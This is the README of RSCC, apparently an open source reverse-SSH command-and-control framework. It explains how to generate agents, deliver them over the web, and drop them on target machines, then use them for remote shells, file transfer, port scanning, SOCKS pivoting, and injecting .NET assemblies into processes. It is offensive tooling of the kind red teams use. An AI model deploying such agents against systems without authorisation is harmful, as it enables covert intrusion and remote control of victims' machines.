

<div align="center">
  <h1>RSCC</h1>
  <tt>~ Reverse SSH Command & Control ~</tt><br/><br/>
  <br/>
</div>

RSCC is an open source, cross-platform command & control framework that allows you to control your agents via SSH.

## Features

RSCC has the following features:

- Cross-platform agents
- Fully interactive shell
- File transfer via SCP or SFTP
- Local/remote port forwarding via SSH
- Chain SOCKS5 proxy via SSH -D
- Multiple subsystems (port scanner, port forward, execute-assembly, etc)
- Web delivery of agents
- Webhooks for events *(coming soon)*

**Also you can extend agent with your own SSH subsystems!**

As an example, there is a [port scanner subsystem](pkg/agent/internal/sshd/subsystems/pscan/pscan.go) that allows you to scan the target host for open ports from the agent.

<details>
<summary>Example</summary><br/>

```sh
ssh rscc+agent_id -s pscan --ports 139,445,3389 --ips 10.10.10.10
```

</details>

## Getting Started

### Prerequisites

To use RSCC server, you need to have following tools on your machine:

- Go 1.24+ (https://go.dev/doc/install)
- Garble (https://github.com/burrowers/garble)

### Installation

Download binary from [latest release](https://github.com/nu11zy/rscc/releases/latest) or build it from source:

```sh
git clone https://github.com/nu11zy/rscc.git
cd rscc
make build
```

## Usage

> **TIP:** All commands have `--help` flag. Use it to get more information about the command.

### Server

1. Start **RSCC** server:

```sh
./rscc
```

2. Add your public key to `data/authorized_keys` or `~/.ssh/authorized_keys`.

> **TIP:** If `data/authorized_keys` exists, it will be used instead of `~/.ssh/authorized_keys`.

3. Update your SSH config (for example, `~/.ssh/config`):
```yml
# Server config
Host rscc
  HostName 127.0.0.1 # RSCC server IP
  Port 55022         # RSCC operator port
  User nu11z         # Operator username
  UserKnownHostsFile /dev/null
  StrictHostKeyChecking no

# Agent config
Host rscc+*
  ProxyJump rscc
  UserKnownHostsFile /dev/null
  StrictHostKeyChecking no
```

4. Connect to **RSCC** server:

```sh
ssh rscc
```

5. Generate agent (see `agent generate --help` for more options):

```sh
rscc > agent generate -s 127.0.0.1:8080
```

6. Start web delivery for agent:

```sh
rscc > agent host <agent_id> <url>
```

> **TIP:** If you want to download agent to your machine, you can use SCP: `scp rscc:<agent_name> /path/to/local/file`

### Target

1. Download agent from web delivery or drop it manually to target machine.

2. Get agent's session ID:

```sh
rscc > session list
```

> **TIP:** You can use `ssh rscc session list` command to list all sessions without using RSCC CLI.

3. Connect to agent:

```sh
ssh rscc+session_id
```

### More examples

<details>
<summary>SOCKS5 Proxy</summary><br/>

```sh
ssh -D 9090 rscc+agent_id
```

Now you can use `127.0.0.1:9090` as SOCKS5 proxy.

</details>

<details>
<summary>Transfer files</summary><br/>

SCP:

```sh
scp /path/to/local/file rscc+agent_id:/path/to/remote/file
```

SFTP:

```sh
sftp rscc+agent_id
```

</details>

<details>
<summary>Port forward subsystem</summary><br/>

List forwarded ports:

```sh
ssh rscc+agent_id -s pfwd list
```

Forward local port 8080 to 1.1.1.1:80:

```sh
ssh rscc+agent_id -s pfwd start 8080:1.1.1.1:80
```

Stop port forward:

```sh
ssh rscc+agent_id -s pfwd stop 8080
```

</details>

<details>
<summary>Execute assembly</summary><br/>

**WARNING:** Unstable. Can crash your agent.

```sh
cat /path/to/assembly.exe | ssh rscc+agent_id -s execass 
```

Extra flags:

```txt
-args string
      Assembly arguments
-in-process
      Execute assembly in current process
-ppid int
      Parent process ID to inject assembly into (default: 0)
-process string
      Process to inject assembly into (default "notepad.exe")
-process-args string
      Arguments to pass to the process
-runtime string
      CLR runtime to use (default: v4) (default "v4")
```

</details>

## For Contributors

*This section will be updated in the future.*

<details>
<summary>How to create a new subsystem</summary><br/>

**NOTE:** Don't forget to add a build tag to your files.

1. Create a new file that registers your subsystem in the global subsystems map. See [pscan](pkg/agent/internal/sshd/subsystems/pscan.go) as an example.

2. Implement the actual subsystem. See [pscan](pkg/agent/internal/sshd/subsystems/pscan/pscan.go) as an example.

3. Run `go mod tidy` and `go mod vendor` in the **agent directory** to update dependencies.

4. Add the name of your subsystem to the `internal/common/constants/constants.go` file.

5. If you use VSCode, add your build tag to `.vscode/settings.json`

6. Run `make build` in the root directory to build RSCC with your subsystem.

</details>


## TODO

- [ ] Webhooks for events
- [ ] More documentation
- [ ] More subsystems
